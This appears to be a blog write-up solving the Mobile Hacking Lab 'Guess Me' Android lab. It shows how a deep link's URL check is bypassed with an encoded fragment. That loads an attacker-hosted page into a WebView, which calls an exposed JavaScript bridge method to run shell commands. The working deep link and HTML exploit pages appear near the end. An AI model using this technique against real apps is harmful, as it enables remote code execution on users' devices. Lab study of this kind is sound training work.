








I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - Guess Me.

The goal of the challenge is to manipulate a deep link functionality in the android application, allowing you to execute remote code and gain unauthorized access.

# Analyzing the Application
Looking at the source code using jadx-gui, we see there is one activity `com.mobilehackinglab.guessme.WebviewActivity` defined with an intent-filter to handle deep-links.


The scheme is `mhl` and the host is `mobilehackinglab`, so this activity can be invoked using activity manager using the command
```bash
am start -d 'mhl://mobilehackinglab'`
```


# Webviews and Javascript Interfaces
[WebView](https://developer.android.com/reference/android/webkit/WebView) objects allow you to display web content as part of your activity layout, but lack some of the features of fully-developed browsers.

This activity defines a webview in the `onCreate` method and exposes a Javascript interface `MyJavascriptInterface` to it, which can be accessed using the `AndroidBridge` object. After this, the `loadAssetIndex` and `handleDeepLink` methods are called. 


A [Javascript Interface](https://developer.android.com/reference/android/webkit/JavascriptInterface) allows you to expose Java functions to a webview, which can then be invoked via Javascript. This is sort of similar to [preload scripts in Electron](https://www.electronjs.org/docs/latest/tutorial/tutorial-preload), where we expose Nodejs functions to the renderer process.

The `MyJavascriptInterface` interface exposes 2 methods:
- loadWebsite: loads the url passed into the webview.
- getTime: executes the passed string as a command and returns the string.


`getTime` can be used to abuse the Webview and get command execution on the device.

# Routing the Exploit

We need to load an URL under our control into the webview. Once done, we call `AndroidBridge.getTime` via javascript to get command execution. Looking at the function calls using `frida-trace` when invoking `WebviewActivity` via our deeplink, we see the following call order:
```
init
onCreate -> loadAssetIndex
         -> handleDeepLink -> isValidDeepLink
```


`isValidDeepLink` checks the following:
- The deeplink URI starts with either `mhl` or `https`.
- The deeplink host is `mobilehackinglab`.

If these 2 checks pass, then:
- GET parameter `url` should not be null
- GET parameter `url` should end with `mobilehackinglab.com`



If all is good, the function returns true, after which `handleDeepLink` will call `loadDeepLink` which loads the URL in the GET parameter `url` into the webview.


This can be achieved by using the below deeplink:
```
mhl://mobilehackinglab/?url=https://google.com%23mobilehackinglab.com
```


# Exploitation

Create the following HTML pages, and host them over an HTTP server.
```html
<!-- index.html -->
<a href="mhl://mobilehackinglab/?url=http://YOUR-EXPLOIT-SERVER/exploit.html%23mobilehackinglab.com"><h1>Click Me!</h1></a>
```

```html
<!-- exploit.html -->
<script>
    alert(AndroidBridge.getTime("id"));
</script>
```
Send the link to your server to the victim. When the victim clicks the link, it triggers `com.mobilehackinglab.guessme.WebviewActivity` and loads our malicious exploit.html into its' webview, leading to RCE.
